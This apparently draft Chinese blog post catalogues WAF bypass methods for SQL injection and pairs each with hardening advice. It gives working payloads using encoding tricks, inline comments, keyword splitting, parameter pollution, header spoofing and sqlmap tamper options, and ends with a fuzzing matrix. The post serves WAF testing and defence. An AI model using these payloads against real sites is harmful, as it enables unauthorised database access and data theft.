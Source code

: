 ```yaml
---
layout: post
title: WAF绕过方式与加固建议
subtitle: WAF绕过方式与加固建议
date: 2024-09-19 17:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
number headings: 
published: false
---
```

## 一、编码混淆与特殊字符绕过

攻击原理：利用WAF解码逻辑与后端差异，或特定字符的解析歧义。

### 1.空字节注入(%00)

- 测试Payload: `id=1' UNION%00 SELECT 1, database()--` 
- 场景：WAF可能将%00视为语句结束符，而数据库继续执行后续语句。
- 加固建议：在语义分析层增加空字节清理逻辑，确保全语句连贯性检测。

### 2.Unicode/双重编码

- 测试Payload: `id=1' UNI%u004fN SEL%u0045CT 1,2--` (MSSQL/IIS环境)
- 双重编码：id=`1%2527%25200R%25201%253D1`（`%2527`解码为单引号）。
- 加固建议：实现多层递归解码，确保所有输入最终归一化处理。

### 3. 内联注释

测试Payload: `id=1'/*!50000UNION*/ /*!SELECT*/ 1,@@version--`
说明：利用MySQL对/\*!版本号\*/语法的特殊执行逻辑，绕过黑名单匹配。
加固建议：解析注释内容并评估其实际执行影响，而非简单跳过。

## 二、SQL语法变形与碎片化

攻击原理：拆解敏感关键词，利用数据库语法容错性重组。

### 1.关键词分割

测试Payload：

- 空白替代：`id=1'UNION%0aSELECT%0b1,2`（使用 `%0a` 换行符、`%0b` 垂直制表符）
- 注释分割：`id=1'UNI/*xyz*/ON SEL/*abc*/ECT 1,table_name FROM information_schema.tables`。
- 加固建议：建立词法分析器，识别被分割关键词的组合语义。

### 2. 同功能函数/运算符替换

测试Payload：

- 比较符：`id=1' OR 1<>2`（替代1=1）
- 字符串函数：`MID(user(),1,1)`替代`SUBSTRING(user(),1,1)`
- 盲注替代：`id=123'||(strcmp(left(database(),1),'a')=0)`。
- 加固建议：构建函数/运算符等价性知识库，覆盖罕见组合。

### 3. 缓冲区溢出攻击

- 测试Payload：`id=1' AND (SELECT 1)=(SELECT 0xAAAA...<1000+ bytes >...AAAA) UNION SELECT 1,version()--`
- 场景：超长脏数据可能使WAF检测引擎崩溃或跳过检测。
- 加固建议：设置请求体大小阈值，对超长请求启动流式检测（非一次性加载）。

## 三、协议与上下文伪装绕过

攻击原理：利用WAF对流量上下文识别漏洞。

### 1. 静态资源路径混淆

- 测试Payload：`GET /index.php/static/image.png?id=1' UNION SELECT 1, 2`
- 场景：WAF可能忽略对“静态资源”的检测，而后端仍执行PHP解析。
- 加固建议：基于MIME类型而非路径后缀决定检测策略，强化路径规范化解析。

### 2. 爬虫/工具伪装

- 测试Payload：
- UA设置：`User-Agent: Googlebot/2.1`
- 请求头注入：`X-Forwarded-For：1.1.1.1`（伪造可信IP）。
- 加固建议：整合威胁情报验证UA/IP真实性，对可疑爬虫启动二次验证（如JS Challenge）。

### 3. 参数污染（HPP）

- 测试Payload：`id=1&id=2' UNION SELECT 1,@@version--` 
- 场景：若后端取首个 id 值而WAF取末值，可绕过检测。
- 加固建议：关联多参数位置检测，或与业务框架协同确定参数解析逻辑。

## 四、自动化工具辅助绕过（针对SQLMap）

攻击场景：攻击者使用SQLMap的Tamper脚本自动化测试。

### 1. Tamper脚本利用

测试方法：

- 使用 `charencode.py`、`space2comment.py` 等脚本变形Payload。
- 自定义脚本：如替换 UNION 为 `/*!UNION*/`。
- 加固建议：监控高频Tamper特征（如特定注释模式），引入机器学习模型识别自动化工具流量。

### 2. 延时绕过CC防护

- 测试方法：`sqlmap --delay=3` （降低请求频率）。
- 加固建议：动态调整CC阈值，对低频但高复杂度请求启动深度检测。

## 五、针对性测试方案设计

### 1. 模糊测试（Fuzz）矩阵构建

下表为关键测试维度与用例示例：

| 测试维度          | 用例示例                          | 检测目标                 |
|:----------------- | --------------------------------- | ------------------------ |
| 空白符变异        | `%09`, `%0a`, `%0c`, `/**/`       | 分词引擎鲁棒性           |
| 关键词大小写/拆分 | `UnIon`, `SEL%0bECT`, `UNI/**/ON` | 归一化处理能力           |
| 注释注入          | `/*!SELECT*/`, `--%0a`, `#`       | 注释内恶意代码识别       |
| 特殊数据库语法    | `SELECT /*!50000 VERSION*/( )`    | 数据库特性兼容性检测     |
| 超长Payload       | `id=1'+'A'*5000+' OR 1=1--`       | 引擎内存管理与流处理能力 |

### 2. 深度防御加固建议

语义层分析：引入AST（抽象语法树）解析SQL逻辑结构，而非依赖正则匹配。例如：解析UNI<任意字符>ON为UNION节点。

动态行为检测：监控异常数据库交互（如information_schema访问），结合响应模式识别盲注。

协同防护：与业务系统联动，对输入参数强制类型化（如数字型参数拒绝字符串），从根源减少注入面

## 参考链接

[sql注入10之waf绕过_sql注入绕过waf-CSDN博客](https://blog.csdn.net/jonhswei/article/details/147350256)

[SQL注入_WAF绕过(一)](https://blog.csdn.net/qq_51550750/article/details/123843371)

[网络安全-长亭雷池waf的sql绕过，安全狗绕过（5种绕过3+2）](https://blog.csdn.net/m0_68976043/article/details/142449743)
